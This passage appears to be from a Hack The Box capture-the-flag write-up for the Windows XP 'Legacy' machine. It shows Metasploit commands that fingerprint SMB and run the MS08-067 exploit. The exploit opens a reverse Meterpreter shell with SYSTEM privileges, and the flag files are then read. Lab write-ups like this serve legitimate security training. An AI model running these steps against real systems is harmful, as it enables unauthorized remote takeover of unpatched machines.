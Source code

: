 <pre>
<kw>msf5 ></kw> use auxiliary/scanner/smb/smb_version 
<kw>msf5 auxiliary(scanner/smb/smb_version) ></kw> set RHOSTS 10.10.10.4
RHOSTS => 10.10.10.4
<kw>msf5 auxiliary(scanner/smb/smb_version) ></kw> run

[+] 10.10.10.4:445        - Host is running Windows XP SP3 (language:English) (name:LEGACY) (workgroup:HTB )
[*] 10.10.10.4:445        - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
</pre>

Now we know the machine is running XP SP3, we can narrow down the list of suitable exploits to use against the service:

<pre>
<kw>msf5 auxiliary(scanner/smb/smb_version) ></kw> search path:exploit/windows/smb sp3
</pre>

Having chosen one, configure the parameters and execute:

<pre>
<kw>msf5 auxiliary(scanner/smb/smb_version) ></kw> use exploit/windows/smb/ms08_067_netapi
<kw>msf5 exploit(windows/smb/ms08_067_netapi) ></kw> set RHOSTS 10.10.10.4
RHOSTS => 10.10.10.4
<kw>msf5 exploit(windows/smb/ms08_067_netapi) ></kw> exploit
[*] Started reverse TCP handler on 10.10.14.51:4444 
[*] 10.10.10.4:445 - Automatically detecting the target...
[*] 10.10.10.4:445 - Fingerprint: Windows XP - Service Pack 3 - lang:English
[*] 10.10.10.4:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
[*] 10.10.10.4:445 - Attempting to trigger the vulnerability...
[*] Sending stage (179779 bytes) to 10.10.10.4
[&#42;] Meterpreter session 1 opened (10.10.14.51:4444 -> 10.10.10.4:1032) at 2019-09-01 11:13:54 -0400
<kw>meterpreter ></kw>
</pre>

We have a meterpreter shell!

<pre>
<kw>meterpreter ></kw> getuid
Server username: NT AUTHORITY\SYSTEM
<kw>meterpreter ></kw> pwd
C:\WINDOWS\system32
</pre>

The exploit spawned our shell with SYSTEM privileges, so we're done here.

<pre>
<kw>meterpreter ></kw> cat /Documents\ and\ Settings/Administrator/Desktop/root.txt
<kw>meterpreter ></kw> cat /Documents\ and\ Settings/john/Desktop/user.txt
</pre>

### [](#header-3) BLUE

